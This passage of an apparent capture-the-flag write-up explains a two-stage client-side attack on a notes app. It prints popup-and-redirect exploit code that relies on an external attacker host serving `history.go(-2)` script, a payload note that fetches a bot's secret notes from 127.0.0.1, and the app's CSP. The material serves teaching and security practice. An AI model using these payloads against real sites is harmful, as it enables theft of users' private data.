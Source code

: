 ```js
params = new URL(location).searchParams
url1 = params.get('url1')
url2 = params.get('url2')

if(url1 && url2){
 w = open(url1)
 setTimeout(_=>w.location = url2, 2000)
 setTimeout(_=>w.location = `https://httpx.43z.one?status=200&body=<script>history.go(-2)<\/script>`, 3000)
}
```
This first stage "exploit" takes two URLs as GET parameters. 

It then goes on to call `open(url1)`, which opens a new tab and loads url1 in it. Luckily headless chrome allows popups by default.

That new tab is stored into the variable `w`. Two seconds later it changes the location of `w` to the second URL. And then another second later it opens an URL of the `httpx` tool that simply returns some tiny javascript `history.go(-2)`.  

We cannot simply use `w.history.go(-2)` because the tab origin and the "exploits" origin will be different. Exploit will have `editor.43z.one` and the tab `challenge-0323.intigriti.io`. The browser will not allow access to the window object of a cross origin tab. That's why we have to simply open some other page that serves the javascript.


## Second stage or how to read the flag

One way to read the bots secret note is to put following code into our payload note.
```html

<script>
	r = fetch("http://127.0.0.1/notes").then(x => x.text()).then(console.log)
</script>
```
(If you don't understand the `127.0.0.1` here, read the `The idea of a solution` section again)

But not so quick! If we do the "backward" spiel with our crafted payload we will get this.

![enter image description here](https://imgur.com/OkwzB9c.png)
All the pages on the challenge have a CSP. https://github.com/0xGodson/notes-app-2.0/blob/main/app/www/app.js#L47
```
default-src 'self'; 
style-src fonts.gstatic.com fonts.googleapis.com 'self' 'unsafe-inline';
font-src fonts.gstatic.com 'self'; 
script-src 'self'; 
base-uri 'self'; 
frame-src 'self'; 
frame-ancestors 'self';  
object-src 'none';
```
The script source can only be `self` no inline scripts are allowed.
